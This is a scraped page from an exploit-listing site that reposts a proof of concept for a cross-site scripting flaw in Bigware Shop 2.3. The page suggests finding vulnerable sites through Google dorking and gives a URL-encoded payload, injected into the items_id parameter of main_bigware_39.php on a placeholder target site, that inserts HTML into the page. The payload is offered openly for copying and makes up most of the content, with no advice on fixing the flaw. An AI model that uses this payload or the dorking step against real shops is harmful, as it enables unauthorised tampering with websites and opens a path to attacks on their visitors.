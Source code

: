 ```yaml
---
title: Bigware Shop 2.3 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173489&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-15
fetch_date: 2025-10-04T11:52:38.577169
---
```


# Bigware Shop 2.3 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Bigware Shop 2.3 Cross Site Scripting

2023-07-14 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173489
====================================================================================================================================
| # Title : Bigware Shop v2.3 XSS Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0.2(64-bit) |
| # Vendor : http://www.bigware.de/ |
| # Dork : |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine

[+] Xss /Html inject Use Payload : /main_bigware_39.php?bigPfad=&items_id=67%27%22%28%29%26%25%3Cmarquee%3E%3Cfont%20color=lime%20size=32%3Eindoushka%3C/font%3E%3C/marquee%3E

[+] http://target_site/main_bigware_39.php?bigPfad=&items_id=67%27%22%28%29%26%25%3Cmarquee%3E%3Cfont%20color=lime%20size=32%3Eindoushka%3C/font%3E%3C/marquee%3E

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* shadow_00715 *9aylas*djroot.dz*LiquidWorm*Hussin-X*D4NB4R *ViRuS_Ra3cH *yasMouh* CraCkEr |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)